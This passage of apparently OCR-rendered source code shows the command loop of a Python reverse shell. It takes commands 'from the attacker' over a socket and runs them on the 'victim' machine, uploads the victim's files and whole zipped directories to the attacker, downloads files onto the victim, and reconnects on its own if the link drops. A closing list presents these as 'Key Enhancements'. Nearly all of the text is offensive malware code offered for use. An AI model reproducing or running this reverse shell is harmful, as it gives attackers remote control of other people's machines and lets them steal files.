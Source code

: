 # Reconnect on initial run if necessary
reconnect()

flag = 0
while True and flag == 0:
    try:
        command = soc.recv(1024).decode().strip()  # Receive command from the attacker
    except ConnectionError:
        print("Connection lost, reconnecting...")
        reconnect()  # Reconnect if the connection is lost

    if not command:
        continue

    print(f"Received command: {command}")
    log_command(command)  # Log the received command

    if command.lower() == 'stop':  # Exit condition for stopping the reverse shell
        print("Stopping the connection.")
        soc.send("Connection closed.".encode())
        flag = 1
    elif command.startswith("cd "):  # Handle 'cd' command (change directory)
        try:
            target_dir = command[3:].strip()
            os.chdir(target_dir)
            soc.send(f"Changed directory to {os.getcwd()}".encode())
        except Exception as e:
            soc.send(f"Failed to change directory: {str(e)}".encode())
    elif command.startswith("upload "):  # Upload a file or folder from the victim to the attacker
        file_path = command[7:].strip()
        result = upload_file(file_path)
        soc.send(result.encode())
    elif command.startswith("download "):  # Download a file from the attacker to the victim
        file_path = command[9:].strip()
        result = download_file(file_path)
        soc.send(result.encode())
    else:  # Handle normal shell commands
        result = execute_command(command)
        soc.send(result.encode())

# Close the socket connection
soc.close()

Key Enhancements:

    File Upload/Download: Support for both regular files and entire directories (directories are zipped before uploading).

    Command Logging: Logs the commands sent to the victim machine with timestamps.

    Automatic Reconnect: If the connection is lost, the victim machine will attempt to reconnect indefinitely.
